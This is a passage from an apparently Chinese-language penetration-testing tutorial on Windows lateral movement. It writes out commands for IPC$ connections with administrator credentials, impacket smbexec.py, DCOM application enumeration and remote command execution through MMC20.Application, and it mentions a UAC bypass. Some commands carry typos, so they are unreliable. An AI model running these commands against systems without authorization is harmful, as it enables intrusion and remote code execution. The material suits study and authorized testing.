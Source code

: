 将 `execserver.exe` 上传到到目标系统的 `C:\Windows\` 目录下，解除 `UAC` 对命令的限制。

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>``` | ```cmd<br>net use \\IP "password" /user:pentest\administrator<br>test.exe IP administrator password whoami c$<br>``` |

### [](#impacket-%E5%B7%A5%E5%85%B7%E5%8C%85%E4%B8%AD%E7%9A%84-smbexecpy)impacket 工具包中的 smbexec.py

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```cmd<br>smbexec.py penteer/administrator:password\@IP<br>``` |

## [](#dcom-%E5%9C%A8%E8%BF%9C%E7%A8%8B%E7%B3%BB%E7%BB%9F%E4%B8%AD%E7%9A%84%E4%BD%BF%E7%94%A8)DCOM 在远程系统中的使用

### [](#%E9%80%9A%E8%BF%87%E6%9C%AC%E5%9C%B0-dcom-%E6%89%A7%E8%A1%8C%E5%91%BD%E4%BB%A4)通过本地 DCOM 执行命令

#### [](#%E8%8E%B7%E5%8F%96-dcom-%E7%A8%8B%E5%BA%8F%E5%88%97%E8%A1%A8)获取 DCOM 程序列表

windows server 2012 及以上

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```powershell<br>Get-CimInstance Win32_DCOMApplicatioon<br>``` |

Windows 7, Windows Server 2008

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```powershell<br>Get-WmicObject -Namespace ROOT\CIMV2 -Class Win32_DCOMApplication<br>``` |

#### [](#%E4%BD%BF%E7%94%A8-dcom-%E6%89%A7%E8%A1%8C%E4%BB%BB%E6%84%8F%E5%91%BD%E4%BB%A4)使用 DCOM 执行任意命令

本地启动一个管理员权限的 powershell

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```powershell<br>[System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","127.0.0.1")).Document.ActiveView.ExecuteShellCommand("cmd.exe","0","/c calc.exe","Minimzed")<br>``` |

### [](#%E4%BD%BF%E7%94%A8-dcom-%E5%9C%A8%E8%BF%9C%E7%A8%8B%E6%9C%BA%E5%99%A8%E4%B8%8A%E6%89%A7%E8%A1%8C%E5%91%BD%E4%BB%A4)使用 DCOM 在远程机器上执行命令

远程连接时必须使用具有本地管理员权限的账号

#### [](#%E4%BD%BF%E7%94%A8-ipc-%E8%BF%9E%E6%8E%A5%E8%BF%9C%E7%A8%8B%E8%AE%A1%E7%AE%97%E6%9C%BA)使用 IPC$ 连接远程计算机
